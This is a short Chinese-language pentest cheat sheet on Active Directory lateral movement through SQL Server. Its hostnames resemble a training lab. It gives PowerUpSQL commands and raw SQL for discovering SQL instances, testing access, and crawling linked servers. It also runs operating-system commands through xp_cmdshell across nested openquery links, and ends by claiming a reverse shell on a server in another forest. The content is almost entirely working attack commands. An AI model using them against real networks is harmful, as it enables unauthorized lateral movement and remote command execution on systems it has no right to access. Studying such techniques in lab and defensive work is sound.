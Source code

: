 # 域横向渗透

- 通过sql服务横向渗透，工具：[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
- 连接数据库工具[heidisql](https://www.heidisql.com/download.php)

```powershell
Import-Module .\PowerupSQL.psd1
# SPN扫描SQL服务
Get-SQLInstanceDomain

# 检查是否有权限
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose

# 搜集信息
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

# 寻找到远程服务器的链接
Get-SQLServerLink -Instance dcorp-mssql -Verbose
# 等同于使用heidisql连接后执行这个命令
select * from master..sysservers

# 列举数据库链接
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
# 等同于使用heidisql连接后执行这个命令
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from master..sysservers'')')

# 执行命令
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'"
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" | ft
# 等同于使用heidisql连接后执行这个命令
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from openquery("eu-sql",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```

通过滥用dcorp-mssql中的数据库链接，在eurocorp森林中的SQL服务器上获得一个反向shell
